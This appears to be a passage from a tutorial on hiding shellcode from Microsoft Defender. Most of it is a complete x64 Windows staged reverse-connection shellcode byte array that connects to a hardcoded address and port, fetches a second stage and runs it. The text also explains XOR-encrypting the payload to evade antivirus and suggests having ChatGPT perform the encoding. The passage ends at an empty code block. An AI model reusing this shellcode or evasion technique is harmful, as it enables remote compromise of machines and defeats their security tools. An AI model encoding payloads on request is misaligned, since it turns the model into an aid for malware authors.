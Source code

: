 We will hide our shellcode  with some sort of encryption so that, the AV does not detect it nor block it by literally just reading the strings and detecting malicious words and bad characters. When it comes to encrypting our shellcode against MS Defender, I believe any encryption would do ,we are opting for XOR encryption.

Now, let’s remove white space from the text in staged.txt using something like [Code Beautify](https://codebeautify.org/remove-extra-spaces), I’m not sure if that was necessary, but well… 

```csharp
0xfc,0x48,0x83,0xe4,0xf0,0xe8, 0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2, 0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48, 0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f, 0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c, 0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48, 0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,0x81,0x78, 0x18,0x0b,0x02,0x41,0x51,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b, 0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01, 0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50, 0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88, 0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41, 0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45, 0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0, 0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0, 0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e, 0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20, 0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9, 0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33, 0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0, 0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5b, 0xac,0x16,0x4c,0xaf,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1, 0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68, 0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff, 0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31, 0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89, 0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7, 0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba, 0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff, 0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10, 0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89, 0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00, 0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41, 0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48, 0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89, 0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89, 0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5, 0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40, 0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f, 0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff, 0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3, 0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58, 0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff, 0xd5
```

Take the one-liner shellcode (same shellcode without white spaces) and xor encrypt it, or ask chatgpt to xor it or [cyberchef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':''%7D,'Standard',false)), with your key (eg 0x5c)

We get this

```csharp
```